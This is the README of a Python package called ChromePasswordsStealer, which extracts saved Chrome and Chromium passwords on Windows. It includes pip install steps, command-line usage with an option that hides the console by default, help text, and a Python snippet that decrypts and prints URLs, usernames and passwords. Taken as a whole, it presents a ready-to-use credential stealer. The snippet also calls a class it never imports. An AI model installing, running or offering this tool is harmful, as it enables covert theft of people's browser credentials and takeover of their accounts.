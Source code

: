 ![ChromePasswordsStealer logo](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer_small.png "ChromePasswordsStealer logo")

# ChromePasswordsStealer

## Description

This module steals chrome and chromium passwords on Windows.

## Requirements

This package require:
 - python3
 - python3 Standard Library
 - pywin32
 - PythonToolsKit
 - PyCryptodome

## Installation

```bash
pip install ChromePasswordsStealer
```

## Usages

## Command lines

```bash
# Python executable
python3 ChromePasswordsStealer.pyz -h
# or
chmod u+x ChromePasswordsStealer.pyz
./ChromePasswordsStealer.pyz --help

# Python module
python3 -m ChromePasswordsStealer

# Entry point (console)
ChromeStealer --save-all --window -f passwords
```

### Python script

```python
from ChromePasswordsStealer import ChromePasswordsStealer
stealer = ChromePasswordsStealer()
stealer = ChromiumPasswordsStealer("passwords", True)
stealer.get_database_cursor()
stealer.get_key()
for url, username, password in stealer.get_credentials():
    print(url, username, password)

stealer.save_and_clean()
```

## Help

```text
~# python3 ChromePasswordsStealer.py -h

usage: ChromePasswordsStealer.py [-h] [--filename FILENAME] [--window] [--save-all]

This program steals Chrome passwords on Windows.

optional arguments:
  -h, --help            show this help message and exit
  --filename FILENAME, -f FILENAME
                        The filename to export the credentials.
  --window, -w          Do not hide the console.
  --save-all, -s        Save chrome db, key file and key.
```

## Links

 - [Github Page](https://github.com/mauricelambert/ChromePasswordsStealer/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer.html)
 - [Download as python executable](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer.pyz)
 - [Pypi package](https://pypi.org/project/ChromePasswordsStealer/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
